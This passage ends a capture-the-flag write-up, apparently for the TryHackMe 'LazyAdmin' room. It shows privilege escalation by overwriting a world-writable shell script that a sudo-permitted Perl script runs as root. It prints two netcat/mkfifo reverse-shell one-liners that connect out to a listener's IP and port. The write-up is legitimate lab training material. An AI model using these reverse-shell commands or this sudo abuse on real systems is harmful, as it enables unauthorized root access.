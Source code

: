 We can see that we can only read and execute the file. That's a bummer, since we can't edit the file. But first, let's see what the file does.

```bash
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
```

```pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

So it runs a shell script `copy.sh` in the `/etc` directory. Similarly, let's check out the permissions and see what the contents of the file are.

```bash
www-data@THM-Chal:/$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Firstly, we have `rwx` permissions on it, which means that we can edit the file. Secondly, its pretty interesting that `/etc/copy.sh`... is a reverse shell. What we need to do is to edit the IP address and set up a netcat listener.

Amazingly, the system did not have any text editors installed/enabled :|

![noeditors](./img/lazyadmin/14.png)

Alright fine. We can use echo instead to overwrite the file. Being a lazy pleb, I went to a [Reverse Shell Generator](https://www.revshells.com/) to generate a similar reverse shell.

```bash
www-data@THM-Chal:/$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.95.111 2345 >/tmp/f" > /etc/copy.sh
www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.95.111 2345 >/tmp/f
```

After running the netcat listener, we can run the Perl script as root.

```bash
www-data@THM-Chal:/$ sudo /usr/bin/perl /home/itguy/backup.pl
```

From there, we get a root shell! We can now get the root flag.

![rootflag](./img/lazyadmin/15.png)

# Conclusion

This was a rather easy room for me, and I do like that there were multiple ways to solve it (with the various exploits). I'm definitely feeling more confident in my skills in solving the easier rooms, and hopefully I can move on to the harder ones soon! :D
